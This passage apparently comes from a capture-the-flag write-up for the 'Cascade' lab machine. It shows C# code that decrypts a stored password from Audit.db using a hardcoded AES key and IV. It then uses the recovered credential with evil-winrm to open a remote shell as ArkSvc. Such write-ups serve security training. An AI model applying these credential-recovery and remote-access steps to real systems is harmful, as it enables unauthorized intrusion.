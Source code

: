 To decrypt the encrypted password in the `Audit.db`, we can simply just make use of the `DecryptString` method that was already implemented for us. I am not well-versed on how to setup an environment for `.NET` but I know there are websites like [this](https://dotnetfiddle.net/) that allows you run any `.NET` code ! :)

This is how my final code looks like:

{% highlight dotnet %}
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;
					
public class Program
{	
	public static string DecryptString(string EncryptedString, string Key)
	{
		//Discarded unreachable code: IL_009e
		byte[] array = Convert.FromBase64String(EncryptedString);
		Aes aes = Aes.Create();
		aes.KeySize = 128;
		aes.BlockSize = 128;
		aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
		aes.Mode = CipherMode.CBC;
		aes.Key = Encoding.UTF8.GetBytes(Key);
		using (MemoryStream stream = new MemoryStream(array))
		{
			using (CryptoStream cryptoStream = new CryptoStream(stream, aes.CreateDecryptor(), CryptoStreamMode.Read))
			{
				byte[] array2 = new byte[checked(array.Length - 1 + 1)];
				cryptoStream.Read(array2, 0, array2.Length);
				return Encoding.UTF8.GetString(array2);
			}
		}
	}
	public static void Main()
	{
		Console.WriteLine(DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321"));
	}
}
{% endhighlight %}

After executing, we get the output `w3lc0meFr31nd`.

Using [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) again, we establish a shell as `ArkSvc`.

{% highlight bash %}
$ ruby evil-winrm.rb -i cascade.local -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 
{% endhighlight %}
